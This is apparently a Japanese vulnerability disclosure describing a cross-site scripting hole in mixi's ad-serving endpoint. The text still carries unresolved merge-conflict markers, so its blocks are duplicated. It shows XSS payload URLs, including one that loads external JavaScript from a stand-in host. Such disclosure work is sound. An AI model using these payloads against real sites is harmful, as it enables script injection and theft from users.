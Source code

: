 
<<<<<<< HEAD
■0x03.) 脆弱性が存在する箇所
=======
### 0x03 脆弱性が存在する箇所
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　脆弱性はhttp://mixi.jp/home.plから呼び出されるhttp://ads.mixi.jp/jserv
er/***（***の部分は任意の文字列）に存在する。例えばURLがhttp://ads.mixi.
jp/jserver/hogeの場合、HTTPレスポンスのボディ部は次のようになる。

<<<<<<< HEAD
-----
document.writeln("<A HREF=\"http://ads.mixi.jp/ADCLICK/CID=fffffffcfffffffcfffffffc/hoge\" TARGET=\"_blank\">");
document.writeln("<IMG SRC=\"http://img.ads.mixi.jp/AE3.gif?A\" ALT=\"\" BORDER=\"0\"></A>");
document.close();
-----

　内容からわかるとおり、このレスポンスはJavaScriptである。このコンテンツ
は<script src=url>の形で呼び出されることを想定しているものと思われる。
=======
\-\-\-\-\-
document.writeln("<A HREF\=\"http://ads.mixi.jp/ADCLICK/CID\=fffffffcfffffffcfffffffc/hoge\" TARGET\=\"_blank\">");
document.writeln("<IMG SRC\=\"http://img.ads.mixi.jp/AE3.gif?A\" ALT\=\"\" BORDER\=\"0\"></A>");
document.close();
\-\-\-\-\-

　内容からわかるとおり、このレスポンスはJavaScriptである。このコンテンツ
は<script src\=url>の形で呼び出されることを想定しているものと思われる。
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　URLを次のようにすることでスクリプトが実行可能であり、これがクロスサイト
スクリプティング脆弱性であることが確認される。

<<<<<<< HEAD
-----
http://ads.mixi.jp/jserver/</a><script>alert('xss');</script>
-----
=======
\-\-\-\-\-
http://ads.mixi.jp/jserver/</a><script>alert('xss');</script>
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　さらに次のようにすることで、ウェブ上においた（サイズが大きい）JavaScri
ptを実行できる。

<<<<<<< HEAD
-----
http://ads.mixi.jp/jserver/</a><script src=http://www.example.com/foo.js></script>
-----
